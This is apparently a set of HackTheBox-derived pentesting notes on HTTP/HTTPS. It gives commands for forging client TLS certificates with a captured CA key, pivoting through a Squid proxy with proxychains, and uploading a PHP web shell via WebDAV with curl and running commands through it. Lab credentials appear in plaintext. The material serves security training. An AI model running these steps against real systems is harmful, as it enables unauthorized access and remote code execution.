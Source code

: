```yaml
---
icon: globe-pointer
description: HyperText Transfer Protocol
---
```


# HTTP/HTTPS

{% hint style="info" %}
## <mark style="color:purple;">Generate a</mark> <mark style="color:orange;">`TLS`</mark> <mark style="color:purple;">Certificate</mark>

<mark style="color:orange;">**`With the CA private key already`**</mark>

1. <mark style="color:purple;">Verify Client Certificate Requirements:</mark>

```bash
openssl s_client -connect 10.10.10.131:443
```

2. <mark style="color:purple;">Generate the client's private key:</mark>

```bash
openssl genrsa -out client.key 4096
```

3. <mark style="color:purple;">Create a</mark> <mark style="color:orange;">**`certificate signing request (CSR)`**</mark> <mark style="color:purple;">, ensure the fields match the server's expectations:</mark>

```bash
openssl req -new -key client.key -out client.req
```

4. <mark style="color:purple;">Sign the</mark> <mark style="color:orange;">**`CSR`**</mark> <mark style="color:purple;">with the</mark> <mark style="color:orange;">**`CA’s private key`**</mark> <mark style="color:purple;">to issue a</mark> <mark style="color:orange;">**`client certificate`**</mark> <mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```bash
openssl x509 -req -in client.req -CA lacasadepapel-htb.pem -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer
```
{% endcode %}

5. <mark style="color:purple;">Convert the private key and certificate into a</mark> <mark style="color:orange;">**`PKCS#12 (.p12)`**</mark> <mark style="color:purple;">format file for easy import:</mark>

```bash
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`Squid`</mark> <mark style="color:purple;">Proxy</mark>

* <mark style="color:purple;">The config file normally lives in</mark> <mark style="color:orange;">**`/etc/squid/squid.conf`**</mark>
* <mark style="color:purple;">Relays on</mark> <mark style="color:orange;">**`/usr/lib/squid/basic_ncsa_auth`**</mark> <mark style="color:purple;">for authentication and the program stores the passwords in</mark> <mark style="color:orange;">**`/etc/squid/passwords`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Check if you can reverse it to access the local network.</mark>
* <mark style="color:purple;">First add the address and port to the last line of your</mark> <mark style="color:orange;">**`proxychains.conf`**</mark> <mark style="color:purple;">file:</mark>

```
http 10.10.10.67 312
```

* <mark style="color:purple;">Then, just</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">:</mark>

```sh
proxychains nmap -n -sT 127.0.0.1
```

***

### <mark style="color:red;">`Upstream Proxy Server`</mark>&#x20;

1. <mark style="color:purple;">On</mark> <mark style="color:orange;">**`burp`**</mark> <mark style="color:purple;">go to</mark> <mark style="color:orange;">**`Settings > Network > Connections`**</mark>
2. <mark style="color:purple;">Create a new rule with</mark> <mark style="color:orange;">**`*`**</mark> <mark style="color:purple;">for the</mark> <mark style="color:orange;">**`Destination Host`**</mark><mark style="color:purple;">, set the target proxy as the</mark> <mark style="color:orange;">**`Proxy Host/Port`**</mark> <mark style="color:purple;">and set the credentials with basic</mark> <mark style="color:orange;">**`Authentication type`**</mark><mark style="color:purple;">.</mark>
3. <mark style="color:purple;">In order to fuzz the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">, set a</mark> <mark style="color:orange;">**`Proxy Listener`**</mark><mark style="color:purple;">, redirect to</mark> <mark style="color:orange;">**`127.0.0.1:80`**</mark> <mark style="color:purple;">and set</mark> <mark style="color:orange;">**`127.0.0.1:1234`**</mark> <mark style="color:purple;">as the interface.</mark>
4. <mark style="color:purple;">Now add the interface to</mark> <mark style="color:orange;">**`/etc/proxychains.conf`**</mark><mark style="color:purple;">.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">**`WebDAV`**</mark>

_<mark style="color:purple;">**Web Distributed Authoring and Versioning**</mark>_<mark style="color:purple;">, an extension of the</mark> <mark style="color:orange;">**`HTTP`**</mark> <mark style="color:purple;">protocol that allows users to collaboratively edit and manage files stored on a remote server.</mark>

* <mark style="color:purple;">Extends HTTP methods like</mark> <mark style="color:orange;">**`GET`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">with additional ones like</mark> <mark style="color:orange;">**`PROPFIND`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`PROPPATCH`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MKCOL`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`DELETE`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`COPY`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MOVE`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`LOCK`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Credentials can be found at</mark> <mark style="color:orange;">**`webdav.passwd`**</mark><mark style="color:purple;">**.**</mark>
* [<mark style="color:orange;">**`devtest`**</mark>](https://github.com/cldrn/davtest) <mark style="color:purple;">can be use for enumeration.</mark>

***

{% code title="Upload files" overflow="wrap" %}
```sh
curl --upload-file ./file.php --user <UserName>:<Password> http://10.10.10.67/webdav_test_inception/
```
{% endcode %}

{% code title="Run commands from revshell" overflow="wrap" %}
```sh
curl --data-urlencode 'cmd=id' http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/file.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

{% code title="Enumeration" overflow="wrap" %}
```sh
davtest.pl -url http://10.10.10.67/webdav_test_inception -auth <UserName>:<Password>
```
{% endcode %}
{% endhint %}
